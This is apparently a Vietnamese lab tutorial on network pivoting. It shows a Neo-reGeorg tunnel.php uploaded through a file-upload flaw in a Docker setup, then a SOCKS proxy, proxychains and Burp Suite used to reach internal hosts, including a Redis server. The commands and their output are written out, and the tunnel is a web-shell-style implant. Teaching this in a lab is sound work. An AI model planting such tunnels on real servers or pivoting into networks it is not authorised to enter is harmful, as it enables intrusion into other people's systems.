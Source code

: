 # Kỹ thuật pivot và tool Neo-reGeorg

## 0. Cấu trúc:
- `lab`: thư mục chứa mã nguồn dùng để test trong bài viết. Cách setup: `docker compose up`.
- `images`: thư mục chứa hình ảnh được sử dụng trong bài viết.
- `image_maker.pptx`: file powerpoint được dùng để tạo các hình ảnh trong bài viết.

## 1. Giới thiệu
Pivot là một kỹ thuật giúp attacker tăng tầm ảnh hưởng của lỗ hổng đối với một hệ thống.

![Oops](./images/network_model.jpg)

Xem xét một hệ thống (build bằng docker) gồm:
- Host chính là máy chạy docker, máy này sẽ đóng vai attacker 🙂.
- 3 host: `HA` (`172.18.0.4`), `HB` (`172.18.0.4`), `HC` (`172.18.0.3`).
- `HA` đang chạy một web server ở port `80` và map ra bên ngoài là port `2808`.
- `HC` đang chạy một web server ở port `80`.
- `HB` đang chạy redis ở port `6379`.
- 2 bridge: 
    - `bridgeA`: gồm `HA`.
    - `bridgeB`: gồm `HA`, `HB`, `HC`.

Giả sử ứng dụng web ở `HA` có lỗ hổng upload file nên attacker có thể kiểm soát (RCE) được `HA`. Từ đó attacker có thể gửi gói tin mạng sang bên `bridgeB` để tìm cách sử dụng các dịch vụ khai thác thêm `HB` và `HC`.

Ví dụ: `HB` chạy cơ sở dữ liệu redis với mật khẩu dễ đoán thì sau khi kiểm soát được `HA` thì có thể kiểm soát được luôn redis (nếu đoán được mật khẩu 🔑).

Việc sử dụng một hệ thống đã được kiểm soát để tìm kiếm các hệ thống trong mạng rồi săn tìm những điểm yếu khác để tấn công được gọi là kỹ thuật pivot.

## 2. Lưu ý
Trong quá trình khai thác ta không có sẵn địa chỉ IP của các host. Lúc đó ta cần các công cụ khác để scan. Mình cho sẵn IP để làm cho bài viết dễ tiếp cận hơn. 😁

Mình sẽ demo kỹ thuật pivot dựa trên mô hình trên.

Chỉ có `HA` là có thể được truy cập từ mạng bên ngoài. Tuy nhiên do build từ docker nên máy host cũng có thể truy cập tới `HA`, `HB`, `HC`. Mô hình thực ra kiểu như này:
![Oops](./images/true_network_model.jpg)

Do đó ta sẽ dựa vào log để xem là truy cập trực tiếp hay là truy cập từ ngoài vào. Ví dụ khi ở máy attacker mà curl tới `http://localhost:8000` thì sẽ IP được log lại là `172.19.0.1`, còn curl trực tiếp tới `http://172.18.0.4` (địa chỉ IP của HA) thì địa chỉ IP được log lại sẽ là `172.18.0.1`.
![Oops](./images/different_ip.jpg)

## 3. Các cách để triển khai pivot
Ý tưởng chung sẽ là làm sao để gửi các gói tin chứa yêu cầu của attacker tới dịch vụ cần khai thác rồi chuyển các phản hồi tới attacker. Làm vậy thì kiểu như attacker ở trong chính mạng cần truy cập luôn ấy nhỉ 😁. 

Để chuyển các gọi tin như vậy thì ta có một số cách như sử dụng port forwarding, VPN, proxy hay chỉnh sửa routing table. Tương ứng với pivot thì cũng có một số cách như vậy:
- Port forwarding.
- VPN pivoting.
- Proxy/SSH pivoting.
- Routing tables.

Do giả thiết là ta đã kiểm soát được `HA` nên giả sử ta cũng thiết lập được Port forwarding, VPN, proxy, .... Ví dụ: ta có thể sử dụng `HA` như proxy:

![Oops](./images/pivot_model.jpg)

*Hình nào có con bug là đã bị attacker tác động rồi nhé* 🙂

Hiện nay có rất nhiều tool giúp attacker thực hiện pivot bằng cách thực hiện một trong cách trên. 
## 4. Các tool mình ~~thường~~ từng dùng:
### [proxychains](https://github.com/haad/proxychains): 
Là một tool cho phép các gói tin được gửi từ việc sử dụng các command trên shell đi qua một proxy server nào đó.

### [reGeorg](https://github.com/sensepost/reGeorg) và [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg): 
Trong khuôn khổ CTF thì lỗ hổng upload file được mô phỏng rất thường xuyên. Và reGeorg và Neo-reGeorg là tool giúp tạo một file upload `tunnel.(aspx|ashx|jsp|jspx|php)` khai thác lỗ hổng upload file. File đó sẽ có vai trò tạo một proxy server như mô hình trên. Từ proxy server đó sẽ đi tới `HA`. Và từ `HA` có thể đi sang `HB`, `HC`. 

*Lưu ý: thực ra không cần phải rập khuôn phải là upload file, miễn là có thể lưu một file với nội dung cần thiết như upload file là được.*

**Demo:** Neo-reGeorg là bản mở rộng của reGeorg nên mình sẽ dùng Neo-reGeorg để demo chức năng cơ bản của cả hai.

Ở host `HA` thì có lỗ hổng file upload với server apache cổ điển. Vì cấu hình không kỹ (thực ra là không cấu hình luôn :v) nên các file upload có thể được thực thi bằng đuôi `.php`. 

Sử dụng Neo-reGeorg để sinh các file:
```ruby
$ python3 neoreg.py generate -k icecream

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
```
Sau đó upload `neoreg_servers/tunnel.php` lên `HA`. File `tunnel.php` chính là lý do có con bug ở `HA` trong mô hình trên :v 🪲

```ruby
$ python3 neoreg.py -p 7777 -k icecream -u http://localhost:8000/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting socks server [127.0.0.1:7777]
  Tunnel at:
    http://localhost:8000/tunnel.php
+------------------------------------------------------------------------+
```

Đồng thời, Neo-reGeorg cũng tạo ra một proxy ở cổng 7777 (do mình để `-p 7777`) để cho mình gửi các gói tin vào nếu muốn nó chạy sang `HC` hoặc `bridgeB`. Mô hình như sau:

![Oops](./images/neoreg_proxy_model.jpg)

Để gửi vào qua proxy `7777` đó thì mình sẽ sử dụng [proxychains](https://github.com/haad/proxychains).

Ta sẽ thử hai câu lệnh:
**Câu lệnh 1:**
```ruby
$ curl 172.18.0.3
```

**Log đối với câu lệnh 1:**

![Oops](./images/access_HC_directly.jpg)

Nếu dùng `curl` không qua proxy `7777` thì địa chỉ IP truy cập sẽ là `172.18.0.1` rất bình thường như lúc nãy ta đã `curl`.

**Câu lệnh 2:**
```ruby
$ proxychains curl 172.18.0.3
```

**Log đối với câu lệnh 2:**

![Oops](./images/access_HC_indirectly.jpg)

Nếu dùng `curl` qua proxy `7777` thì địa chỉ IP truy cập vào `HC` là `172.18.0.4` - địa chỉ của `HA`. Tức là ta đã sử dụng `HA` để request sang `HC`, sang `bridgeB`.

Việc truy cập được là do file `tunnel.php` ta upload lên. Ta có thể thấy, xen lẫn trong log là các request tới `HA` từ ngoài vào (URL `localhost:8000`).

Bên `bridgeB` còn có `HB` chạy dịch vụ redis, ta cũng nên thử vào `ping` cái chứ nhỉ 😆
```ruby
$ proxychains redis-cli -u redis://172.18.0.2:6379
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:7777-<><>-172.18.0.2:6379-<><>-OK
172.18.0.2:6379> ping
PONG
172.18.0.2:6379> client list
id=4 addr=172.18.0.4:35024 laddr=172.18.0.2:6379 fd=8 name= age=6 idle=0 flags=N db=0 sub=0 psub=0 ssub=0 multi=-1 qbuf=26 qbuf-free=20448 argv-mem=10 multi-mem=0 rbs=1024 rbp=0 obl=0 oll=0 omem=0 tot-mem=22298 events=r cmd=client|list user=default redir=-1 resp=2
172.18.0.2:6379>quit
``` 
Quan sát trường `addr=172.18.0.4:35024` từ câu lệnh `client list` có chứa địa chỉ IP của máy tạo connection đến redis, chính là địa chỉ của `HA`.

### Setup cho burp suite có thể dùng proxy 7777:
`HC` có chạy một web server nên trong thực tế có thể sẽ có lỗ hổng ở đó nên ta cần setup cho burp suite có thể sử dụng được.

Proxy ở port 7777 ở trên sử dụng giao thức SOCKS5.

- Ta vào `User options`.
- Tích chọn `Use SOCKS proxy`.
- Điền IP và port của proxy của mình để là `127.0.0.1` và `7777`.

![Oops](./images/setup_burpsuite.jpg)

Như vậy là đã có thể hoạt động bình thường. Mô hình hoạt động như sau:

![Oops](./images/setup_burpsuite_model.jpg)

## 5. Q&A
**Q1:** Sao nhìn pivot giống SSRF vậy? Này là SSRF đổi tên đúng không? 🤔

**A1:** Thực ra mình cũng thấy giống SSRF😆. Hiểu theo một nghĩa nào đó thì cả hai cái cũng có thể là một. Nhưng mà lúc chơi CTF thường thì SSRF sẽ là cố gắng bypass để giả mạo request tới một chức năng nào đó mà client thường không làm được của server. Còn pivot thường cái kết nối của nó sẽ mạnh hơn nhiều, ta có thể thực hiện nhiều câu lệnh hơn chẳng hạn `redis-cli` như ví dụ.
